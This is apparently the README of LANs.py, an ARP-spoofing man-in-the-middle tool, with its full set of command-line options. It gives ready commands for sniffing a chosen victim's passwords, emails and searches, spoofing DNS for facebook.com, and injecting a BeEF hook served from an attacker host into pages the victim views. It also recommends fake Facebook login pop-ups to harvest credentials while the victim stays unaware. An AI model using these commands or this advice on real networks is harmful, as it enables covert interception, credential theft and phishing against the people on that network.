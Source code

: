 LANs.py
========

Multithreaded asynchronous packet parsing/injecting arp spoofer.

Individually arpspoofs the target box, router and DNS server if necessary. Displays all most the interesting bits of their traffic. Cleans up after itself.


Prereqs: Linux, scapy, python nfqueue-bindings, aircrack-ng, python twisted, BeEF (optional), wireless card capable of injection

Tested on Kali 1.0


Simplest usage:

# python LANs.py

Because there's no -ip option this will arp scan the network, compare it to a live running promiscuous capture, and tell you the clients on the network that are sending the most packets, give Windows netbios names, then you can Ctrl-C and pick your target which it will then ARP spoof. Simple ARP spoofing.


Passive usage:

# python LANs.py -u -d -p -ip 192.168.0.10

-u: prints URLs visited; truncates at 150 characters and filters image/css/js/woff/svg urls since they spam the output and are uninteresting

-d: open an xterm with driftnet to see all images they view

-p: print username/passwords for FTP/IMAP/POP/IRC/HTTP, HTTP POSTs made, all searches made, incoming/outgoing emails, and IRC messages sent/received

-ip: target this IP address 

Easy to remember and will probably be the most common usage of the script: options u, d, p, like udp/tcp.


HTML injection:

# python LANs.py -b http://192.168.0.5:3000/hook.js

Inject a BeEF hook URL (http://beefproject.com/, tutorial: http://resources.infosecinstitute.com/beef-part-1/) into pages the victim visits. Injecting HTML undetected is a dicey game, if a minor thing goes wrong then the user won't be able to open the page they're trying to view and they'll know something's up. This script is designed to forward packets if anything fails so during usage you may see lots of "[!] Injected packet for www.domain.com" but only see one or two domains on the BEeF
panel that the browser is hooked on. This is OK. If they don't get hooked on the first page just give it a few minutes. The goal is to be unintrusive. My favorite BEeF tools are in Commands > Social Engineering. Do things like create an official looking Facebook pop up saying the user's authentication expired and to re-enter their credentials.   

# python LANs.py -c '<title>Owned.</title>'

Inject arbitrary HTML into pages the victim visits. First tries to inject it after the first <head> and failing that injects prior to the first </head>.


Aggressive usage:
# python LANs.py -v -d -p -n -na -set -dns facebook.com -c '<title>Owned.</title>' -b http://192.168.0.5:3000/hook.js -ip 192.168.0.10


All options:

# python LANs.py -h


-u: prints URLs visited; truncates at 150 characters and filters image/css/js/woff/svg urls since they spam the output and are uninteresting

-d: open an xterm with driftnet to see all images they view

-p: print username/passwords for FTP/IMAP/POP/IRC/HTTP, HTTP POSTs made, all searches made, incoming/outgoing emails, and IRC messages sent/received

-ip: target this IP address 

-i INTERFACE: specify interface; default is first interface in `ip route`, eg: -i wlan0

-dns DOMAIN: spoof the DNS of DOMAIN. e.g. -dns facebook.com will DNS spoof every DNS request to facebook.com or subdomain.facebook.com

-n: performs a quick nmap scan of the target

-na: performs an aggressive nmap scan in the background and outputs to [victim IP address].nmap.txt

-v: show verbose URLs which do not truncate at 150 characters like -u

-b BEEF_HOOK_URL: copy the BeEF hook URL to inject it into every page the victim visits, eg: -b http://192.168.1.10:3000/hook.js

-c 'HTML CODE': inject arbitrary html code into pages the victim vists; include the quotes when selecting HTML to inject



Cleans the following on Ctrl-C:

  Turn off IP forwarding

  Flush iptables firewall

  Individually restore each machine's ARP table


To do:

Add ability to read from pcap file


Technical details:

This script uses python nfqueue-bindings wrapped in Twisted to feed packets to callback functions as well as drop or forward certain packets. From there scapy takes over to parse and inject. 
